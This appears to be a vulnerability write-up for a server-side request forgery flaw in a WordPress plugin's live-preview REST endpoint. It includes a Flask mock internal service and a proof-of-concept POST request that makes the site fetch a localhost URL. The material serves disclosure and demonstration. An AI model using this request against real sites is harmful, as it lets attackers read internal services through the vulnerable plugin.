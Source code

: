When a **POST** request is sent to `/wp-json/pbb/v1/live-preview`, `fetch_external_content()` executes. It reads the `url` parameter from the request, performs a **fetch request** to that address, and returns the **response body**.

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request to the endpoint

```http
POST /wp-json/pbb/v1/live-preview HTTP/1.1
Host: localhost
...

url=http://localhost:8001/metadata
```

**Result**:

![Result](result.png "Content read from local service")
